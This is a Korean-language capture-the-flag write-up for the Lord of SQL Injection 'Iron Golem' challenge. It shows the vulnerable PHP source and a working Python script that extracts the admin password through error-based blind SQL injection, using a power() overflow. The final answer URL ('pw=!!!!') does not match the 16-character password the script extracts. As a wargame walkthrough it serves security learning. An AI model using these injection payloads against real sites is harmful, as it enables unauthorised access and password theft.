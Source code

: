 # Lord of SQL Injection No.21 Iron Golem

LOS Iron Golem은 기본적인 Error Based SQL Injection 공격을 할 수 있도록 유도한 문제이다.

## 소스 코드
```php
<?php
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(mysql_error()) exit(mysql_error());
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
  highlight_file(__FILE__);
?>
```

```php
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
```

`$_GET` 방식으로 입력받은 `pw`값에 `prob`, `_`, `.`, `(`, `)` 가 포함되어 있으면 `No Hack ~_~`을 출력한 후 문제 풀이에 실패하게 된다.

```php
if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
```

`$_GET` 방식으로 입력받은 `pw`값에 `sleep`, `benchmark`가 포함되어 있으면 `No Hack ~_~`을 출력한 후 문제 풀이에 실패하게 된다.

sleep 함수와 benchmark 함수는 `time based sql injection`에 사용되는 함수이다.

```php
if(mysql_error()) exit(mysql_error());
```

처음보는 코드가 보인다.
코드를 살펴보면 "만약 MySQL DB에서 오류가 발생하면, 에러를 출력하고 종료한다" 라는 의미인데, 이번 문제는 이 구문을 통해서 **Error Based SQL Injection**으로 해결 가능한 문제임을 알 수 있다.

**Error Based SQL Injection**은 위와 같이 오류가 발생하면 예외적으로 특별한 행동을 수행하게 하는 코드가 있으면 이를 이용하여 고의적으로 오류를 발생시켜 원하는 값을 알아내거나 공격을 할 수 있게 하는 공격 방법이다.

```php
$query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'"
```

query문은 los 문제 초반 쯤에 나올만한 기본적인 query문이다.

#### 문제 풀이 조건

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
```

`$_GET` 방식으로 입력받은 `pw`값과 DB 내에 존재하는 `pw` 값이 일치하면 문제 풀이에 성공하게 된다.

## Solution

이 문제는 Error Based SQL Injection 을 이용한 Blind SQL Injection 이다.

```python
import urllib.request
from urllib.parse import quote

result = ""
pwlen = 0

for i in range(1, 30):
    url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
    data = "' or id='admin' and if((length(pw)='{}'),power(2,99999999999),0) -- ;".format(str(i))
    print(data)
    data = quote(data)
    re = urllib.request.Request(url + data)
    re.add_header("User-agent", "Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=breqgq9o0qrbiingkqc7v00c35")
    res = urllib.request.urlopen(re)

    if str(res.read()).find("DOUBLE value is out of range in") != -1:
        pwlen = i
        print("Password Length is {} !!".format(pwlen))
        break

for i in range(1, pwlen + 1):
    for j in range(32, 128):
        url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
        data = "' or id='admin' and if((substr(pw,{},1)='{}'),power(2,99999999999),0) -- ;".format(str(i), chr(j))
        print(data)
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=breqgq9o0qrbiingkqc7v00c35")
        res = urllib.request.urlopen(re)

        if str(res.read()).find("DOUBLE value is out of range in") != -1:
            result += chr(j).lower().replace(" ","")

            print("Found it! [{}]".format(result))
            break

print("Password is [{}]".format(result))
```

```python
data = "' or id='admin' and if((length(pw)='{}'),power(2,99999999999),0) -- ;".format(str(i))
```

Error Based SQL Injection을 위해 고의적으로 오류를 발생시킬 때 사용한 방법은 **지수 연산 오류**이다.

python 코드에서는 `power` 함수를 사용하여 거듭제곱 연산 오류를 발생시켰다.

power 함수는 첫번째 인자값에 두번째 인자값만큼 거듭제곱한 값을 반환해주는 함수이다.

예를 들어 power(2,3) 과 같이 코드에 존재하면 2³이 반환되는 것이다.

이를 통해서 `length(pw)`에 일치하는 값이 들어가면 이는 1을 반환하기 때문에 1+1이 되어 2^99999999999 라는 값을 반환하게 된다. 이 값은 연산 가능 범위를 초과하기 때문에 에러를 발생시키게 된다.

올바른 결과값을 발생시키면 발생하는 에러는
`DOUBLE value is out of range in 'pow(2,99999999999)'` 과 같기 때문에 소스를 읽어올 때 다음과 같은 문장을 찾게되면 `pwlen` 변수에 비밀번호 길이가 저장된다.

이를 통해 얻어낸 `pwlen`은 16이며 `pwlen`을 찾는 방법과 같이 substr 함수를 이용하여 지수 연산 오류를 발생시키면 `pw`값을 찾아낼 수 있다.
(pw에서 찾아진 공백은 `.replace`를 통해 치환했다.)

```
http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw=!!!!
```

URL에 `?pw=!!!!`을 추가하면 문제풀이에 성공하게 된다.